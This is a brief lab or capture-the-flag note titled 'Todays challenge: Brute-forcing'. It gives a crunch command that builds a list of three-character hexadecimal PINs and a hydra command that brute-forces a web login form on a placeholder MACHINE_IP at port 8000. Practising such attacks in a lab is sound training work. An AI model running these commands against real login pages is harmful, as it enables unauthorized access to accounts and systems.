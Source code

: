Todays challenge: Brute-forcing

Used the tool crunch to generate password list

    crunch 3 3 0123456789ABCDEF -o 3digits.txt
            

    Use hydra to bruteforce the pin

hydra -l '' -P 3digits.txt -f -v MACHINE_IP http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
